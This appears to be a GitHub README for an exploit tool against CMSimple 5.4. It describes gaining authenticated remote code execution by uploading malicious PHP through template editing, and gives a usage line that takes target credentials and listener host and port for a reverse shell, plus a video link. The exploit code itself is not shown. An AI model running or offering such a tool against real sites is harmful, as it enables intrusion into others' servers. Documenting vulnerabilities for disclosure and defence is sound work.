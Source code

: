 # CMSimple-5.4-Authenticated-RCE-
Cmsimple 5.4 - Remote Code Execution (RCE) (Authenticated)

Description:

Template editing functionality is abused to upload malicious PHP files.

Exploit Usage : cmsimpleRCE.py -url targetdomain.com -u username -p password -ip lhost -lp lport

PoC: https://www.youtube.com/watch?v=7EvncRsiHFU

[![Video](https://img.youtube.com/vi/7EvncRsiHFU/0.jpg)](https://www.youtube.com/watch?v=7EvncRsiHFU)

